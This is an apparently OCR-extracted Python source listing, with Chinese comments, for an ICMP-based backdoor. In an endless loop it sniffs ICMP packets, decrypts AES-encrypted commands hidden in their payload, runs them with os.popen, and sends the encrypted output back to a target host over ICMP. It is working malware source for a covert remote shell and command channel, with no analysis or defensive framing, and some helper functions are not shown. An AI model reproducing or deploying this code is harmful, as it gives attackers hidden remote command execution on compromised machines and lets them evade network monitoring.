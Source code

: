 ```

def get_command(packet):
    cmd = packet[Raw].load
    return cmd

def get_key(packet):
    key = packet[ICMP].unused
    key = hex(key)[2:10]*2
    return key

def sniff_icmp():
    result = sniff(count=1,filter="icmp",lfilter=lambda x:check_icmp(x[0]))
    cmd_encrypt = get_command(result[0])
    key = get_key(result[0])
    cmd = aesDecrypt(key,cmd_encrypt)
    result = exec_commamnd(cmd)
    return result

def aesDecrypt(key, data):
    key = key.encode('utf8')
    cipher = AES.new(key, AES.MODE_ECB)

    # 去补位
    text_decrypted = unpad(cipher.decrypt(data))
    text_decrypted = text_decrypted.decode('utf8')
    return text_decrypted

def aesEncrypt(key, data):
    key = key.encode('utf8')
    # 字符串补位
    data = pad(data)
    cipher = AES.new(key, AES.MODE_ECB)
    # 加密后得到的是bytes类型的数据，使用Base64进行编码,返回byte字符串
    result = cipher.encrypt(data.encode())
    return result

def exec_commamnd(cmd):
    result = os.popen(cmd).read()
    return result

def send_icmp(result):
    key = random.randint(268435455,4294967295)
    key_encrypt = hex(key)[2:10]*2

    result_encrypt = aesEncrypt(key_encrypt,result)
    packet = IP(dst=ip_target,ttl=64,id=10)/ICMP(type=10,unused=key)/result_encrypt
    send(packet)

while True:
    result = sniff_icmp()
    send_icmp(result)

```
